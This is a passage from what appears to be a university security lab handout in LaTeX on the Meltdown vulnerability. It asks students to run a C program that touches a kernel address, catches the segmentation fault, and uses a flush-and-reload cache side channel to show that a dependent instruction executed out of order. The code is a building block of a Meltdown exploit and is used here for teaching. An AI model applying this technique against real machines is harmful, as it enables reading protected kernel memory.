 In this task, we use an experiment to observe the effect caused by 
an out-of-order execution. The code for this experiment is shown below. 
In the code, Line  will cause an exception, so Line  will
not be executed. However, due to the out-of-order execution, Line  is 
executed by the 
CPU, but the result will eventually be discarded. However, because of the execution,
\texttt{array[7 * 4096 + DELTA]} will now be cached by CPU. We use the side-channel code 
implemented in Tasks 1 and 2 to check whether we can observe the effect. 
Please download the code from the lab website, run it and describe your observations. 
In particular, please provide an evidence to show that Line  is 
actually executed. 


\begin{lstlisting}[caption=\texttt{MeltdownExperiment.c}, label=meltdown:list:outoforder]
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     (*@\ding{192}@*)
  array[7 * 4096 + DELTA] += 1;               (*@\ding{193}@*)
}


// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
      meltdown(0xfb61b000);                   (*@\ding{194}@*)
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
\end{lstlisting}


It should be noted that the address in Line  should be replaced by
the actual address that you found from the kernel module. Compile and 
run the code (see Section~\ref{sidechannel:sec:compilation} for the instructions
on the compilation). Document and explain your observations. 




